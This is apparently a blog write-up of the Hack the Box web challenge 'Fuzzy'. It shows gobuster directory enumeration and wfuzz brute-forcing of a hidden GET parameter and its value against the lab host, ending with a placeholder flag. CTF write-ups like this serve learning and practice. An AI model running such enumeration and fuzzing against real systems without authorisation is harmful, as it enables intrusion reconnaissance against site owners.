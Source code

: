+++
title = "Hack the Box challenge: Fuzzy [Web]"
date = 2023-01-10
description = "Hack the Box challenge: Fuzzy [Web]"
tags = [
    "Hack the Box",
    "Challenge"
]
+++

# Fuzzy [Web]

## Enumeration

We enumerate first using `gobuster`:

```
# gobuster dir -u http://docker.hackthebox.eu:32079 -w /usr/share/wordlists/dirb/big.txt -t 30
```

or

```
# gobuster -u http://docker.hackthebox.eu:32079/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
```

We find `/api`, let’s use `gobuster` again:

```
# gobuster -u http://docker.hackthebox.eu:32079/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm,js,md`
```

We found the `action.php`, if we visit `http://docker.hackthebox.eu:32079/api/action.php` we get `Error: Parameter not set`. It’s telling us that our GET request parameters aren’t the goods ones.

## Fuzzing

We use `wfuzz` to brute force the GET parameter:

```
# wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?FUZZ=test
```

- hh (filter the length of characters in source code)
- c (Output with colors)
- w (Wordlist)
- FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

And get a valid parameters with reset, giving us `http://docker.hackthebox.eu:32079/api/action.php?reset=`

We now need to find the right value for the reset parameter:

```
# wfuzz --hh=27 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?reset=FUZZ
```

and we get `20` as valid parameter. visit `http://docker.hackthebox.eu:32079/api/action.php?reset=20` in order to get the flag `HTB{FLAG}`
